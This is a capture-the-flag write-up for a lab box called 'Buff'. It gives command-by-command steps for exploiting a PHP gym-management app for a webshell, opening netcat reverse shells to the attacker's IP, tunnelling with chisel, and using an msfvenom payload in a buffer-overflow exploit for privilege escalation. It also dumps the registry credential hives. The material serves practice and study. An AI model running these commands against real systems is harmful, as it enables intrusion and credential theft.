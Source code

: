 # buff

Buff ran on `10.10.10.198`. My IP was `10.10.14.69`

<details>
<summary>used techniques</summary>

* php webapp exploit to get a webshell
* transferring files via impacket samba server
* reverse shell via netcat
* rebinding a local port via chisel
* finding an exploit with winpeas
* privilege escalation with a buffer overflow

</details>

> enumeration with Kali

```sh
openvpn 00be.ovpn # connect to the network.
ping 10.10.10.198 # make sure Buff is up.

cd /root/projects && mkdir buff
cd buff

echo '10.10.10.198 buff' >> /etc/hosts
sup 10.10.10.198 # or buff
# as soon as one scan is done, open new terminal and run:
so # sets p (ports) and h (host) variable from scan result.

webp=8080 # where we foud a webserver.
tail -F dirb.log | grep --line-buffered ^== # blocking.
dirb http://$h:$webp -o dirb.log # look for interesting folders.

# in the kali VM we can reach the vuln box:
# (via the openvpn connection)
curl 10.10.10.198:8080 # works.

# If we want to use the VM host to browse it:
# on the host we will use local port forwarding:
h=10.10.10.198
p=8080
ssh -N kali -L localhost:80:$h:$webp
# now we can browse it with a browser under: http://localhost/ on the VM host.
# use Wappalyzer.
# browse around -> Contact
#   -> made using Gym Management Software 1.0

searchsploit gym management # systems, not software!
# took me a bit to figure out the different name.
# https://www.exploit-db.com/exploits/48506

# Gym Management System 1.0 - Unauthenticated Remote Code Execution | php/webapps/48506.py
cp /usr/share/exploitdb/exploits/php/webapps/48506.py .
```

> getting a foothold with Kali

```sh
# exploit the webapp for a webshell (a weird one):
rlwrap python2 48506.py http://$h:$webp/
# rlwrap makes this much more bearable but we still can't traverse directories.
# for missing requirements: see the main readme.
```

> enumeration on Buff via webshell

```sh
dir # =ls
  # all the tools people leave laying around...
whoami /all # =id
  # buff\shaun
systeminfo # =uname
  # Win 10
  # x64
set # =env
  # userdomain: BUFF
tasklist # =ps
ipconfig /all # =ifconfig
```

> on Kali

```sh
mkdir share && cd share

# git files:
cp $(locate nc.exe) . # don't forget about updatedb when using locate!
cp /opt/chisel*win* chisel.exe # does not come with Kali.

impacket-smbserver share . -smb2support# blocking.
# alternatively deposit files via a webserver.
rlwrap nc -nlvp 42424 # blocking. will open cmd.exe for a proper reverse shell in a bit.
# rlwrap also gives us a reverse search history!
```

> more enumeration on Buff via webshell

```sh
# copy netcat to Buff.
copy \\10.10.14.69\\share\\nc.exe .
copy \\10.10.14.69\\share\\chisel.exe .

# let's get a proper shell!
nc.exe 10.10.14.69 42424 -e cmd.exe
# alternatives: chisel.exe, plink.exe
# you don't even need to download netcat:
\\10.10.14.69\\share\\nc.exe 10.10.14.69 42424 -e cmd.exe # better!

# or from kali:
curl 'http://buff:8080/upload/kamehameha.php?telepathy=nc.exe%2010.10.14.69%2042424%20-e%20cmd'
```

> on Buff via proper reverse shell

```sh
# from proper shell.
dir
cd ../../../../../../..
robocopy /e xampp \\10.10.14.69\\share # takes forever.
# search for sql lines with: ag sql --color | less

# ---

# while that runs open a second webshell and
# upgrade it via reverse shell method.

cd ../../../../..
dir users
cd users/shaun/desktop
type user.txt
# User flag:
# 5302b97d72d2fd625f1d2d0606ba2d5a
copy user.txt \\10.10.14.69\\share

cd %temp%
mkdir oobe # let's create our own little folder!
cd oobe

# todo: copy this to your kali share folder, then:
copy \\10.10.14.69\\share\\winpeas.exe .
winpeas > winpeas.log

systeminfo > systeminfo.log
tasklist /v > tasklist.log
netstat -aon > netstat.log
# netstat -aon | findstr LISTEN | findstr 127

copy *.log \\10.10.14.69\\share /y
```

> take a look at the logs on Kali

```sh
# check out the winpeas log:
less -R winpeas.log # read it yourself.
grep CVE --binary-files=text winpeas.log # get all CVEs.

# this seems a bit redundant after winpeas:
python /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py \
 --database 2020-10-18-mssb.xls \
 --systeminfo sysminfo.log \
 > exploits.log

grep -i listening netstat.log # careful, only for english versions!
```

I think at this point you are supposed to find the icloudme setup file
in the download folder and deduce that one of the locally bound services
is just that. I did not, had to look up a hint.

iCloudme 1.11.2 is vulnerable to this exploit:
* https://www.exploit-db.com/exploits/48389

> listen on Kali

```sh
/opt/chisel_1.7.1_linux_386 server --port 12345 --reverse
```

> connect from Buff

```sh
chisel.exe client 10.10.14.69:12345 R:8888:127.0.0.1:8888
```

> on Kali
```sh
nc -lnvp 3667 # for reverse shell.

# we don't want to launch the calculator so let's update the payload:
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.69 LPORT=3667 -b '\x00\x0A\x0D' -f python -v payload > payload
cp 48389.py 48389_new-payload.py

# replace the payload in our new copy.

# run it:
python2 48389_new-payload.py
# now we have a root shell!
```


> for fun: dump hashes as admin
```sh
# as windows admin:
reg.exe save hklm\sam sam.reg
reg.exe save hklm\security security.reg
reg.exe save hklm\system system.reg
```
